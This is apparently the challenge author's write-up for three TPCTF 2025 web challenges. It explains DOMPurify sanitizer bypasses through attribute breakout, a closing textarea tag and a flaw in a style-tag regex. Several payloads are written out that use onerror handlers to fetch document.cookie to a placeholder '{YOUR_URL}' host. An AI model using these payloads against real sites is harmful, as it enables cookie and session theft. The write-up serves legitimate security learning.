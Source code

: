 https://ouuan.moe/post/2025/03/tpctf-2025

## baby layout (81 solves)

One solution is to put `{{content}}` inside an attribute and to close the quote in the inner payload:

```html
<img src="{{content}}">
```

```html
" onerror="fetch('{YOUR_URL}'+document.cookie)
```

An alternative solution is to close a `<textarea>`, like [Bad usage | Not enough context | Exploring the DOMPurify library: Hunting for Misconfigurations (2/2) | mizu.re](https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations#bad-usage-not-enough-context):

```html
<textarea>{{content}}</textarea>
```

```html
<div id="</textarea><img src=x onerror=fetch('{YOUR_URL}'+document.cookie)>"></div>
```

## safe layout (50 solves)

I made a mistake not banning `data` and `aria` attributes (`ALLOW_DATA_ATTR` and `ALLOW_ARIA_ATTR`)[^mizu-2], so it can be solved in the same way as the baby version by using `data-x` or `aria-x` instead of other attributes like `src`.

[^mizu-2]: I created this challenge before [this blog post](https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations) was published. I did notice it before the event, but apparently I did not read it very carefully :(

## safe layout revenge (29 solves)

Tips: You can use [Dom-Explorer](https://yeswehack.github.io/Dom-Explorer/) to see DOMPurify output. It’s a great tool for playing with mXSS and sanitizers.

We need to get a malicious tag without using attributes. Normally, malicious tags will be either removed or escaped, but we can get unescaped angle brackets in `<style>`. DOMPurify is very strict and any HTML tags in `<style>` will be filtered. However, the regular expression only checks for `/<[/\w]/`, so `<{{content}}` will not be filtered and can be used to get malicious tags.

Here the inner payload is used twice, first to close the `<style>` tag and then to create the `<img>` tag:

```html
a<style>{{content}}<{{content}}</style>
```

```html
img src onerror=fetch(`{YOUR_URL}/`+document.cookie) <style></style>
```

Another solution is similar but uses an empty `{{content}}`, like [CVE-2023-48219](https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations#cve-2023-48219-tinymce)[^mizu-2].
